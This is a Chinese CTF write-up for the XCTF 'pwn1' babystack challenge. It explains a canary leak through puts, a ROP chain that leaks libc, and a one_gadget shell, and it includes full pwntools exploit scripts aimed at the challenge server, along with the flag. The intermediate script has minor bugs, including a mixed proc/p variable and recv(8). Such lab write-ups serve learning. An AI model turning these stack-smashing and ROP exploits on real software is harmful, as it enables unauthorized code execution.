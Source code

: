 # pwn1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=38dbb74d-2134-4fba-85c1-2fd69db11191_2&task_category_id=2)

我的电脑既无法运行elf，也无法安装虚拟机；另一个shell可以运行elf也能用pwntools，但是无法连上官方的nc地址……两个卧龙凤雏怎么聚在一起了。所以就剖析[writeup](https://bbs.pediy.com/thread-254373.htm)好了。

当然自己能做的还是会做着试试的。ghidra反编译程序再找到main函数。

![main](../../images/_main_.png)

运行就是简单的打印内容程序。

![print](../../images/print.png)

checksec如下。

-   Arch:     amd64-64-little
    <br>RELRO:    Full RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)


64位小端，老朋友canary又来了。分析一下main函数看看采取什么行动。第30行明显栈溢出，local_98就136字节长，read直接读取256个字节。栈溢出首先想到改写返回地址到system这类的函数中，但是canary很烦。canary为local_10,需要想个办法猜出canary的地址。

canary可以爆破，但此处有更简单的办法。注意18，19行。当我们选择2选项时,程序会使用puts打印出local_98的全部内容。

- ### puts
  > 把一个字符串写入到标准输出 stdout，直到空字符（'\0'），但不包括空字符。换行符会被追加到输出中。
  - 声明：int puts(const char *str)
  - 参数：str -- 这是要被写入的 C 字符串。

正常存储字符串末尾肯定会有\0，但我们就是不能正常。这里可以栈溢出，canary又和local_98挨着。想到了啥？我们可以计算local_98和canary之间的偏移，也就是0x88，然后填过去。等puts打印字符串时会从local_98的字符一直打印到canary，因为中间的空字符没了。目前泄漏canary的exp如下。

```python
from pwn import *
proc=remote("61.147.171.105",56381)
payload=b'a'*0x88
proc.sendlineafter(">> ",'1')
proc.sendline(payload)
proc.sendlineafter(">> ",'2')
proc.recvuntil(b'a'*0x88+b'\n')
canary=u64(proc.recv(7).rjust(8,b'\x00'))
```

64位程序应该是8位啊，怎么这里只接收了7位？因为sendline会在payload后面补上一个回车，也就是\n。\n当然也算在我们的输入内，正是这个\n，覆盖掉了canary自己的\0（别忘了canary是以小端正常存储的，末尾还有个\0），让puts得以把canary也包进来。所以canary的最后一位没有用，接收7位然后rjust对齐就行了。

接下来就要考虑返回到哪个函数了。搜索程序本身，既没有system也没有/bin/sh。又到了rop的时刻。给了libc，开始找偏移。一般用的是puts这个好朋友，因为puts只有一个参数，用起来很简单。64位传参就不像32位一样一股脑往栈上塞了。当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。puts的一个参数要放到rdi里。用ROPgadget找一下心仪的的gadget。

- ROPgadget --binary babystack --only "pop|ret" | grep 'rdi'
  > 0x0000000000400a93 : pop rdi ; ret

这个不错，完美符合要求。我们的脚本变成了这样：

```python
from pwn import *
elf = ELF("./babystack")
proc=remote("61.147.171.105",56381)
payload=b'a'*0x88
proc.sendlineafter(">> ",'1')
proc.sendline(payload)
proc.sendlineafter(">> ",'2')
proc.recvuntil(b'a'*0x88+b'\n')
canary=u64(proc.recv(8).rjust(8,b'\x00'))
pop_rdi=0x0400a93
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = 0x400908
payload1 = b'a'*0x88+p64(canary)+b'a'*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendlineafter(">> ","1")
p.send(payload1)
p.sendlineafter(">> ","3")
puts_addr=u64(p.recv(8).ljust(8,'\x00'))
```

理解一下payload1的rop链构成（可能不对，如果错了请帮我指出，我一直懵rop链）。b'a'\*0x88+p64(canary)+b'a'*8就是0x88个垃圾字符+之前泄露的canary+没啥用的rbp+操控参数的pop_rdi gadget+传入puts got地址作为参数+调用puts+将main作为返回地址方便下次利用漏洞。

pop是出栈指令，把 ESP 指向的堆栈元素内容复制到一个 16 位或 32 位目的操作数中，再增加 ESP 的值。这里pop rdi就相当于把后面跟着的puts_got地址放进了rdi里，这样就能成功调用puts了。或许放张图更好理解。

![stack](/笔记/images/271644419475745.jpeg)


我们在栈上搞的一堆rop链是往下增长的。另外这张图是32位的，所以对应到64位的Argument of Next Callee Function处是我们的pop rdi语句。现在应该可以理解这个rop链了。

关于为啥要传puts_got，只需要简略理解puts_got在运行时指向了libc中puts的地址，也就是我们的目标；puts_plt可以调用到puts。这就涉及到plt和got表了，我也不是很懂所以就靠你自己去搜了。

拿到puts真实地址就可以开始计算偏移了。虽然libc的地址会随机变化，但里面的标志无论何时偏移都是一样的。算偏移可以用pwntools自带的ELF加载libc，或者运行一次exp打印出来地址然后放到在线libc库搜索。

最后一步决定往哪返回。上面的教程找到了libc中的一个one_gadget，也就是直接带你调用execve('/bin/sh', NULL, NULL)的gadget。[one_gadget](https://github.com/david942j/one_gadget)其实是个工具，就是帮你找这种gadget的。放出来最终payload。（直接用别人的了，到这一步我没法做了）

```python
from pwn import *
context.arch = "amd64"
context.log_level = "debug"
 
p = remote('61.147.171.105','56381')
#p = process("./babystack")
 
execve = 0x45216
main_addr = 0x400908
puts_got = 6295464
puts_plt = 4195984
pop_rdi = 0x0400a93
 
payload = b'a'*0x88
p.sendlineafter(">> ","1")
p.sendline(payload)
 
p.sendlineafter(">> ","2")
p.recvuntil(b'a'*0x88+b'\n')
 
canary = u64(p.recv(7).rjust(8,b'\x00'))
 
payload1 = b'a'*0x88+p64(canary)+b'a'*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
 
p.sendlineafter(">> ","1")
p.send(payload1)
p.sendlineafter(">> ","3")
puts_addr=u64(p.recv(8).ljust(8,b'\x00'))
 
execve_addr = puts_addr - (456336 - execve)
 
payload2 = b'a'*0x88+p64(canary)+b'a'*8 + p64(execve_addr)
 
p.sendlineafter(">> ","1")
p.sendline(payload2)
p.sendlineafter(">> ","3")
p.interactive()
```

当然用普通方法在libc里找/bin/sh再调用system也是可以的。具体[看这](https://blog.csdn.net/Y_peak/article/details/114234059)。原理只要你看懂第一个rop链就能懂了。

我突然意识到我可以在能运行elf的机子上拿出需要的地址再放到能连接nc的机子上运行,因为elf中的地址是不会变的。于是我拿到flag了。（＾∇＾）


- ### Flag
  > cyberpeace{0c15875a74f4ef361b8f05004c722e19}